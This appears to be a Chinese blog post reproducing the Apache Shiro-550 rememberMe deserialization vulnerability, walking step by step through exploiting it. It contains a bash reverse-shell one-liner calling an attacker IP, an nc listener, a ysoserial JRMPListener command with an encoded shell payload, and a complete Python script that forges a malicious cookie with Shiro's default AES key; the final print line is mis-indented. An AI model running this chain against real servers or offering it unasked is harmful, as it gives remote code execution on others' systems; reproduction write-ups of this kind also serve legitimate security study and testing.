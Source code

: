 ```yaml
---
title: Shiro rememberMe反序列化漏洞(Shiro-550)复现
top: false
cover: http://image.xpshuai.cn/shiro1.jpg
categories:
- 渗透测试
tags:
- Shiro反序列化
- 漏洞复现
abbrlink: 40239
date: 2020-11-13 14:02:25
keywords:
summary:
img:
password:
---
```


### 漏洞原理

Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
**Payload产生的过程：**
命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
在整个漏洞利用过程中，比较重要的是AES加密的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了,Payload构造起来也是十分的简单。

### 影响版本

Apache Shiro < 1.2.4



### 特征判断

返回包中包含`rememberMe=deleteMe`字段



### 演示

> 文中的配图有点不一致，别介意，环境问题



#### 系统界面如图

<img src="http://image.xpshuai.cn/shiro1.jpg"></img>



#### 抓包查看

可以看到是Shiro

<img src="http://image.xpshuai.cn/shiro2.jpg"></img>

#### 1.检查是否存在默认的key

工具链接：https://github.com/insightglacier/Shiro_exploit

```bash
python shiro_exploit.py -u http://<IP>:7080
```

检测的key保存下来一会用



#### 2.制作反弹shell代码

2.1 vps监听端口

```bash
nc -lvvp 7788
```

<img src="http://image.xpshuai.cn/shiro3.jpg"></img>

2.2 Java Runtime 配合 bash 编码，
在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html

```bash
bash -i >& /dev/tcp/202.xx.xx.xx/7788 0>&1	# ip为攻击机的地址
```

<img src="http://image.xpshuai.cn/shiro4.jpg"></img>

#### 3.通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令

上一步的反弹shell的命令编码结果写到下面

```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections6 'bash -c {echo,YmFzaCAtxxxxxxzYuxxxxxxxxxxxxQ==}|{base64,-d}|{bash,-i}'	# 这里用的CommonsCollections4
```

<img src="http://image.xpshuai.cn/shiro5.jpg"></img>

#### 4.使用shiro.py 生成Payload

```bash
python shiro.py 122.xx.xx.xx:6666
```

<img src="http://image.xpshuai.cn/shiro6.jpg"></img>

其中shiro.py代码如下：

```bash
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections6', command], stdout=subprocess.PIPE)	# 这里要注意用哪个JRMPClient
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("fCq+/xW488hMTCD+cmJ3aQ==")	# 这里的key要提前枚举出来
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())


```



#### 5.构造数据包，伪造cookie，发送Payload.

<img src="http://image.xpshuai.cn/shiro7.jpg"></img>

#### 6.nc监听端口，shell成功反弹

<img src="http://image.xpshuai.cn/shiro8.jpg"></img>

------



PS：[后来发现这个好用的工具](https://github.com/feihong-cs/ShiroExploit)，一键检测&getshell，好用极了



> 我应该去学学java编程了，看大佬们写的各种工具，羡慕极了